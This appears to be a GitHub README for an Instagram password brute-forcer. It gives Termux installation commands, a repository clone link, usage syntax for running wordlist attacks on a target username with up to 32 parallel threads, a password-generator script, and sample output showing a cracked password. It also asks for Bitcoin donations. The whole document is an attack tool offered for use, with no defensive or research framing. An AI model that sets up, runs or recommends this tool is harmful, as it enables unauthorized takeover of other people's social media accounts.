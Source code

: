 # Instagram
Hi, this is a Instagram brute-forcer<br>
# Donate
<b>Who does not mind a penny on the development of the project:</b><br>
<b>Bitcoin: 1LBjGEQ16jK23cVqtkFg5fm91poKVVAP5b<br>
<br>
There will be questions - Telegram: <a href="https://t.me/Mrxanon"> @Mrxanon</a><br>
# How to install?
<b>Follow the instructions...</b><br>
<b>If you have Android - download <a href="https://play.google.com/store/apps/details?id=com.termux&hl=ru">Termux from Google Play</a> and open it and write the commands below:<br>
• <code>apt update</code><br>
• <code>apt upgrade -y</code><br>
• <code>apt install python -y</code><br>
• <code>apt install git -y</code><br>
• <code>git clone https://github.com/Mr-X-01/Insta</code><br>
• <code>cd Instagram</code><br>
• <code>pip3 install -r requirements.txt</code><br>
# How to start?
• <code>python3 instagram.py 'username' 'wordlist' -m 'mode'</code><br>
# How to generate passwords?
• <code>python Passgen.py</code><br>
# How to unrar?
• <code>sudo apt install unrar</code><br>
• <code>sudo yum install unrar</code><br>
• <code>sudo dnf install unrar</code><br>
• <code>unrar e <file> /Insta</code><br>

### Help

```
python3 instagram.py -h
usage: instagram.py [-h] [-m MODE] username wordlist

positional arguments:
  username              email or username
  wordlist              password list

optional arguments:
  -h, --help            show this help message and exit
  -m MODE, --mode MODE  modes: 0 => 32 bots; 1 => 16 bots; 2 => 8 bots; 3 => 4 bots
```

### Bots(Threads)

-   4 bots: 64 passwords at a time
-   8 bots: 128 passwords at a time
-   16 bots: 256 passwords at a time
-   32 bots: 512 passwords at a time

### Modes

-   0: 32 bots
-   1: 16 bots
-   2: 8 bots
-   3: 4 bots

### Chill mode

This mode uses only 4 bots, or 64 passwords at a time.

```
python3 instagram.py Mr.x pass.lst -m 3
```

### Moderate mode 1

This mode uses 8 bots, or 128 passwords at a time.

```
python3 instagram.py Mr.x pass.lst -m 2
```

### Moderate mode 2

This mode uses 16 bots, or 256 passwords at a time.

```
python3 instagram.py Mr.x pass.lst -m 1
```

### Savage mode

This mode uses 32 bots, or 512 passwords at a time.

```
python3 instagram.py Mr.x pass.lst -m 0
```

### If you don't specify a mode, then mode is set to 2

### Run

```
[-] Wordlist: pass.lst
[-] Username: Mr.x
[-] Password: 272
[-] Complete: 45.51%
[-] Attempts: 228
[-] Browsers: 273
[-] Exists: True
```

### Stop

```
[-] Wordlist: pass.lst
[-] Username: Mr.x
[-] Password: mr090
[-] Complete: 62.67%
[-] Attempts: 314
[-] Browsers: 185
[-] Exists: True

[!] Password Found
[+] Username: Mr.x
[+] Password: mr090
```
